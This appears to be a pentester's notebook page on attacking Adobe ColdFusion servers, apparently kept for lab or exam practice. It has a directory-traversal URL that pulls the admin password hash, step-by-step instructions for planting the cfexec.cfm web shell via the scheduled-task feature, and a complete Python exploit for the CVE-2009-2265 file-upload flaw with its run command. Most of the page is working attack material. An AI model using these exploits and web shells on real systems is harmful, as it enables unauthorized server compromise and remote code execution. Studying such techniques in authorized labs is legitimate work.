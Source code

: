 #### Resources

https://pentest.tonyng.net/attacking-adobe-coldfusion/

http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py

https://www.exploit-db.com/exploits/27755

---

#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

[[Hashcat#Sha1]]

#### Admin page reverse shell
Find the local path: mappings
![[Pasted image 20220613153218.png]]

Debugging & Logging > Scheduled Tasks > Schedule New Task

```
cp /usr/share/webshells/cfm/cfexec.cfm .
```

OR 

create a malicious jsp and follow similar steps! >>>

![[0._Reverse shells (WEB)#jsp]]

[[Python#Server]]

Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.

**MAKE SURE TO  CHECK THE PUBLISH BOX!**

For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`

![[Pasted image 20220613154728.png]]

After hitting submit, can run tasks right away (Green button), then visit exploit to launch.

`http://$TARGET:/CFIDE/cfexe.cfm`

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[4._File Transfers]]

![[Pasted image 20220613155208.png]]

[[rlwrap]]

#### ColdFusion 8 FileUpload

https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

![[0._Reverse shells (WEB)#jsp]]

![[rlwrap]]

```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp 
```


---

